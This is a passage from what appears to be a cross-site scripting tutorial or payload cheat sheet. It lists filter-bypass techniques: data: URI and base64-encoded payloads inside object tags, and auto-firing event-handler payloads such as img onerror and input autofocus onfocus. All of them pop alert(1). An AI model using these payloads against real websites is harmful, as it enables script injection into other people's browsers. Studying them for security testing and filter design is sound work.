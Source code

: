 #### 🔍 Why It Works:

Because script tags are an explicit JS execution context. Browser sees `<script>` → executes JS inside.

#### 🧨 Bypass Tactics:

**Using `data:` URIs inside other tags:**

```html
<object data="data:text/html,<script>alert(1)</script>">
```

**Base64-encoded payload:**

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

> Why this works: You're *embedding an HTML page* inside a tag that loads external content. Browser interprets the payload as new HTML, which contains your script.

✅ **Bypasses filters** that only scan the main request and miss nested HTML contexts.

---

### 2️⃣ **Event Handlers**

Instead of `<script>`, inject:

```html
<img src=x onerror=alert(1)>
```

#### 🔍 Why It Works:

Browsers execute event handlers like `onerror`, `onload`, `onfocus`, etc., when triggered by user or page behavior.

#### 🔥 Obscure Bypass Vectors:

* **No user interaction required:**

```html
<iframe onreadystatechange=alert(1)>
<xml onreadystatechange=alert(1)>
<object onerror=alert(1)>
```

* **HTML5-specific tricks:**

```html
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus>
</a onmousemove=alert(1)>
<video src=1 onerror=alert(1)>
```

> Why these work: They exploit *auto-triggering events* in modern and legacy HTML5 elements. No need for a click — the browser **automatically fires** the handler.
